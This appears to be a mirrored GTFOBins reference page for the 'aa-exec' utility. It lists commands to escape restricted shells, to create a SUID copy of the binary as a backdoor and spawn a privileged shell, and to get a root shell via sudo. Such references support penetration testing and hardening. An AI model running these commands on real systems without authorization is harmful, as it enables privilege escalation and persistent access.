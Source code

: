 ```yaml
---
title: "aa-exec"
author: GTFObins
categories: Tips
series: GTFObins
tags: [shell,suid,sudo]
toc: false
---
```


# Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
aa-exec /bin/sh
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which aa-exec) .

./aa-exec /bin/sh -p
```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo aa-exec /bin/sh
```
